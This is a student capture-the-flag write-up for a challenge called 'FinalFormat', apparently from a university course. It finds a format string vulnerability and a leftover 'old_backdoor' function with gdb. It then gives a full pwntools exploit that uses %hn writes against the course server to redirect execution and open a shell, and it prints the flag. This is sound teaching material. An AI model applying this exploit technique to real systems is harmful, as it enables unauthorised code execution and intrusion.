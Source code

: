 ## FinalFormat

When entering the machine we test the program to check if there's still any format string vulnerability.

```bash
seed@VM:~/ctf/FinalFormat$ ./program 
There is nothing to see here...ola%x%x
You gave me this:ola2578256178
```

There it is!

Although, the devs did their job and removed the backdoor from the program... Or did they? By using gdb we were able to find that it was still here.

```bash
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
...
0x08049236  old_backdoor
...
``` 

We had an idea to redirect the flow of our program to a specific address in memory, but after using the checksec tool, we realized that writing to the stack would be difficult due to security measures in place. We are looking for ways to modify the program, but are unsure of the best approach to take given the constraints:

```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

We used the gdb debugger to search for instructions in the code that used calls and jumps to other addresses. We eventually found a jump to the address 0x0804c010. In order to modify the program, we then created an exploit that exploited the format string vulnerability to rewrite the backdoor function to this address:

```py
from pwn import *

LOCAL = False

if LOCAL:
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4007)


N = 60
content = bytearray(0x0 for i in range(N))

content[0:4]  =  (0xaaaabbbb).to_bytes(4, byteorder='little')
content[4:8]  =  (0x0804c012).to_bytes(4, byteorder='little')
content[8:12]  =  ("????").encode('latin-1')
content[12:16]  =  (0x0804c010).to_bytes(4, byteorder='little')

#0x08049236  old_backdoor
s = "%.2036x" + "%hn" + "%.35378x%hn"

fmt  = (s).encode('latin-1')
content[16:16+len(fmt)] = fmt

p.recvuntil(b"You got it:")
p.sendline(content)
p.interactive()
```

We successfully ran the exploit we had created, which allowed us to gain access to a shell. Using this shell, we were able to use the cat command to retrieve the flag.

![flag{071dabf34084204f7e6ad8c47bac006e}](/images/ff_flag.png)
